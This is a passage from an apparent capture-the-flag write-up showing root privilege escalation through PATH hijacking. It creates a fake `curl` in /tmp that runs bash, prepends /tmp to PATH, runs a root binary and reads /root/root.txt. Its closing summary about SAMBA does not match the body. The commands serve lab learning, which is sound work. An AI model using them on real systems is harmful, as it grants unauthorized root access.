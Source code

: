 Let's have a look into the binary file and try to find anything useful. Sometimes it's not possible due to compilation of the file. 

If we want to look into this binary we can use simple `cat` command. Yet the output is messy. Using [strings](https://linux.die.net/man/1/strings) command is much better as it's output is only readable characters - `strings /usr/bin/menu`.

We see that depending on our choice, the binary is invoking Linux commands behind the scene - `curl`, `uname` and `ifconfig`.
As the binary running these commands without using their full path - `curl`, not `/usr/bin/curl` - we might be able to manipulate the command path and make the binary invoke a malicious command instead (keep in mind it is running as root!)

To overwrite `curl` path and make our script invoke `bash` instead, we'll:
1.  Change dir to `/tmp` as that folder permissions is very permissive
2.  Create a new file called `curl` which contains the malicious command (run bash) - `echo /bin/bash > curl` and change the file permissions so it can be executed - `chmod 777 curl`
3.  Overwrite `curl` [path](https://opensource.com/article/17/6/set-path-linux) - `export PATH=/tmp:$PATH`
4.  Run the binary and choose **1** to make it call our malicious curl

```console
/usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

5.  Now use [whoami](https://en.wikipedia.org/wiki/Whoami) to verify we're root

Now as root we can access the flag:

```console
cat /root/root.txt
[REDACTED]
```


# Summary
* SAMBA can be a series risk to a machine and a good attack vector for an attacker
